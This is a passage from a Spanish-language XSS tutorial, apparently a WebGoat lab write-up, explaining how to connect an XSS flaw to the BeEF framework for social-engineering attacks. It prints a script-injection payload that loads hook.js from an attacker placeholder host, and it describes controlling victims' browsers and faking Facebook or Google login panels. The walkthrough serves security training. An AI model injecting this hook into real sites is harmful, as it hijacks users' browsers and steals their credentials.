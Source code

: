 ### **Ataques de Ingeniería Social**
Existen muchas otras formas de aprovechar la ejecución de código **JavaScript** en el navegador del cliente, y entre las más interesantes se encuentran aquellas funciones que sirven de apoyo para un ataque de ingeniería social, basandonos en el hecho de que con JS tenemos control completo sobre el DOM de lo que visualiza la victima, por lo que podemos alterarlo y agregar, quitar o simular otras funcionalidades. 

- [BeEF - The Browser Exploitation Framework Project](https://beefproject.com/)

Este grandioso framework tiene un funcionamiento muy interesante que nos permite convertir nuestro **XSS** en un entorno de **Command And Control**, en el que nuestro servidor principal puede controlar y emitir acciones hacia las victimas (zombies/esclavos) en tiempo real, permitiendo realizar cambios visuales que estimulen a la victima a descargar software malicioso, ingresar datos en paneles de acceso, instalar plugins en el navegador, lanzar enumeraciones y lograr recopilar información de la victima (vale la pena poder revisarlo).

Para enlazar el funcionamiento del **BeEF** a nuestro **XSS**, debemos inyectar un payload que haga uso del ``hook.js`` especialmente diseñado por el framework, el cual realiza una conexión recurrente al servidor central en busca de acciones a ejecutar, o la forma de enviar algún resultado previo. 

```javascript
<script src="http://[attack]/hook.js">
```

También es posible subir completamente el servicio de **BeEF** y hacer uso de su laboratorio demo, el cual ya incluye el ``hook.js``. 

- ``http://[ATTACK]:3000/demos/butcher/index.html``

Se tiene un dashboard donde se listan todos las victimas conectadas a nuestro sitio malicioso o que hicieron click en el enlace que explota el **XSS**. 

![Command And Control](/assets/webgoat/A7/05_beef_project.png)
_Command and Control_

Luego, se puede considerar cada victima por separado y seleccionar alguna acción (de las predefinidas), e intentar suplantar un panel de autenticación de facebook o de google: 
